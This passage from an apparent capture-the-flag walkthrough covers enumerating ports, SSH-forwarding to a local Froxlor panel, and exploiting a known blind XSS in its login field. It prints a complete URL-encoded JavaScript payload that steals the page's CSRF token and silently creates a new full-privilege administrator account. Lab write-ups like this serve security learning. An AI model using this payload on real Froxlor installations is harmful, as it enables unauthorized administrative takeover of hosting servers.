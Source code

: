 2. Let’s also check the running ports & services.

**_Command — Running services: ss_** #ss

```
ss -lntp
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*31WsC1IIP-a5gx86XxkgbQ.png)

3. We see a possible website running on port 8080. (Mostly 80 & 8080 are used for websites)

4. Let’s forward this using ssh to access the website in our local machine. #portforwarding

**_Command — ssh forwarding: ssh_**

```
ssh -L 9000:127.0.0.1:8080 michael@10.10.11.32
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*-95n9vrI9iwtuQn1lKKB0w.png)

5. We found a Froxler login page upon visiting the site.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*bHctCFblFjEdMEZYqU0Grg.png)

6. Upon searching for ‘froxler exploit’ we found a blind XSS vulnerability. 

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*bQ4yUptZPS0tjpDwVBVILg.png)

**Proof Of Concept:**

> 1. Provide an invalid username in Login.
> 
> 2. Turn on intercept in Burp Suite.
> 
> 3. In the intercepted request, add the following XSS payload as the value of loginname parameter (Copy from below file):
> [payload.txt](https://github.com/froxlor/Froxlor/files/15142616/payload.txt)
> 
> 4. Turn off the intercept.

7. First, Let’s capture the login request and send it to the Burp Repeater.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*zc0BQAuW6de7Dl6Kenwi-g.png)

8. In the given payload.txt, we need to change the URL and Loginname (your choice) and take note of the password provided (Abcd@@1234).

9. Change the URL from ‘[https://demo.froxlor.org/admin_admins.php](https://demo.froxlor.org/admin_admins.php)’ to ‘/admin_admins.php’. Since we don’t know the full URL, also the relative path will work in sending HTTP Request.

**Final Payload:**

```
admin{{$emit.constructor`function+b(){var+metaTag%3ddocument.querySelector('meta[name%3d"csrf-token"]')%3bvar+csrfToken%3dmetaTag.getAttribute('content')%3bvar+xhr%3dnew+XMLHttpRequest()%3bvar+url%3d"/admin_admins.php"%3bvar+params%3d"new_loginname%3dmrxcrypt%26admin_password%3dAbcd%40%401234%26admin_password_suggestion%3dmgphdKecOu%26def_language%3den%26api_allowed%3d0%26api_allowed%3d1%26name%3dAbcd%26email%3dyldrmtest%40gmail.com%26custom_notes%3d%26custom_notes_show%3d0%26ipaddress%3d-1%26change_serversettings%3d0%26change_serversettings%3d1%26customers%3d0%26customers_ul%3d1%26customers_see_all%3d0%26customers_see_all%3d1%26domains%3d0%26domains_ul%3d1%26caneditphpsettings%3d0%26caneditphpsettings%3d1%26diskspace%3d0%26diskspace_ul%3d1%26traffic%3d0%26traffic_ul%3d1%26subdomains%3d0%26subdomains_ul%3d1%26emails%3d0%26emails_ul%3d1%26email_accounts%3d0%26email_accounts_ul%3d1%26email_forwarders%3d0%26email_forwarders_ul%3d1%26ftps%3d0%26ftps_ul%3d1%26mysqls%3d0%26mysqls_ul%3d1%26csrf_token%3d"%2bcsrfToken%2b"%26page%3dadmins%26action%3dadd%26send%3dsend"%3bxhr.open("POST",url,true)%3bxhr.setRequestHeader("Content-type","application/x-www-form-urlencoded")%3balert("Your+Froxlor+Application+has+been+completely+Hacked")%3bxhr.send(params)}%3ba%3db()`()}}
```
